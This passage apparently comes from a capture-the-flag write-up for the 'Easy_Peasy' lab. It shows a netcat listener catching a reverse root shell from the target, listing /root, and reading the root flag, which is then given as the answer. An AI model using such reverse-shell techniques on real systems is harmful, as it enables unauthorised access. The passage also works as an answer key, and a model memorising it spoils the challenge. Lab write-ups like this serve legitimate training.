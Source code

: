 ~~~
kali@kali:/data/Easy_Peasy/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.105.32] 55704
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ll
ll
total 40
drwx------  5 root root 4096 Jun 15 12:40 ./
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ../
-rw-------  1 root root    2 Aug 24 02:47 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache/
drwx------  3 root root 4096 Jun 13 15:40 .gnupg/
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
~~~

Answer: `flag{63a9f0ea7bb98050796b649e85481845}`
